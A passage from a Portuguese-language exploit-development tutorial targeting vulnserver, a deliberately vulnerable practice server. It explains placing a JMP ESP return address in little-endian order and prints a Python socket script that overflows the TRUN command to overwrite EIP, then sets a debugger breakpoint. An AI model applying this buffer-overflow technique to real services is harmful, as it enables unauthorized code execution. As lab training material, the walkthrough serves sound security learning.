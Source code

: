 ![Immunity.](/std/winbof/winbof-13.png)

Encontramos 9 bons endereços para incluir em nosso payload.

## INSERINDO O ENDEREÇO DE RETORNO NO PAYLOAD

Em posse do endereço de retorno, vamos adicionar um deles no lugar de nossos B,
eu vou utilizar o 62501203 , porém a notação para envio tem que ser em little indian, portanto os bytes tem ordem inversa, ficando: \x03\x12\x50\x62.
Vamos atualizar o exploit.

xpltrun.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# tamanho do offset encontrado no fuzzing
offset = 5061

# payload a ser enviado
payload = b"TRUN /../" # funcao inicial
payload += b"A"*2003 # preenchimento do buffer
payload += b"\x03\x12\x50\x62" # sobrescreve EIP com JMP ESP
payload += b"C" * (5062 - 2003 - 4) # sobrescreve ESP

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # cria o socket
s.connect((ip,porta)) # conecta no alvo

s.send(payload + b"\r\n") # envia o payload

s.close() # fecha conexao
```
Com o nosso script atualizado, vamos inserir um breakpoint no Immunity, exatamente em nosso endereço de retorno, para isso podemos pesquisar o endereço através do botão “Go to address Disassembler” e em seguida pressionar “F2”. Com o breakpoint configurado, vamos reiniciar o vulnserver no Immunity e rodar nosso script.
